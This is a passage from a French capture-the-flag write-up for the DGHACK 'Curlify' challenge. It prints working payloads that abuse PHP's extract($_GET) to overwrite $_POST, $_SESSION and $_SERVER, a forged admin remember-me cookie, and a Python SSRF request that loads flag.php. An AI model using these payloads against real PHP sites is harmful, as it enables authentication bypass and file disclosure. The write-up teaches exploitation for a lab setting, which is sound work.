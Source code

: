Mais comme spécifié précédemment une des vulnérabilité que présente ce site est l'usage de la fonction `extract` sur le tableau `_GET`, si l'on passe un tableau nommé `_POST` via une requête `GET`, il est possible de d'assigner des valeurs au tableau `_POST` dans le script `admin_panel/index.php` comme si une requête `POST` légitime avait été faite dessus! `PHP` permet d'interpréter un tableau passé dans l'url comme ceci:
```bash
http://site.com?_POST[username]=username&_POST[password]=password
```
Mais ce n'est pas la simple embûche pour se connecter en tant qu'admin!
Il nous faut au choix:
- Des identifiants valides
- Un cookie valide

La deuxième options parait la plus simple, et en effet une erreur de code dans la fonction `generate_remember_me_cookie` nous est d'une grande utilité:
```php
function generate_remember_me_cookie($user) {
    return $user.md5('$SECRET_KEY');
}
```
Ici, l'usage des guillemets simples empêche l'interpolation da la clé secrête ce qui fait que le `hash` sera toujours le même et un cookie valide pour l'utilisateur admin sera:
```bash
admin7a988e11680f9e151f6f46808690d5ca
```
Deux derniers détails, pour que le script `task.php` accepte d'ajouter les préférences dans le ticket, il faut que la variable `$_SESSION['UserId']` soit set à 1.
Il n'est pas possible de changer la variable `$_SERVER['HTTP_ACCEPT_LANGUAGE']` en utilisant les headers car j'avais pensé dans un premier temps à utiliser le header `Accept-Language` pour influer sur cette variable.

C'est deux problèmes se règlent donc de la même manière et avec la même technique que nouvs avons utilisé pour changer le tableau `_POST`: On passe deux tableaux appelés respectivement `_SESSSION` et `_SERVER` dans les paramètres de la requêtes `GET` et ils seront extraits par l'appel à la fonction `extract($_GET)`. Finalement la fonction python pour se connecter en tant qu'admin:
```python
USER_AGENT = "DGHACK/1.0 (Curlify)"

def connect_via_cookie_ask_flag(session):
    payload = "http://127.0.0.1/admin_panel/?_POST[username]=admin&_COOKIE[remember_me]=admin7a988e11680f9e151f6f46808690d5ca&DEFAULT_LANGUAGE=flag.php&_SESSION[userid]=12&_SERVER[HTTP_ACCEPT_LANGUAGE]=aaa"
    url = "http://curlify3.chall.malicecyber.com/index.php"
    rep = session.post(url=url, headers={'User-Agent':USER_AGENT}, data={'url':payload})
    return rep.text
```
Résultat:

<div>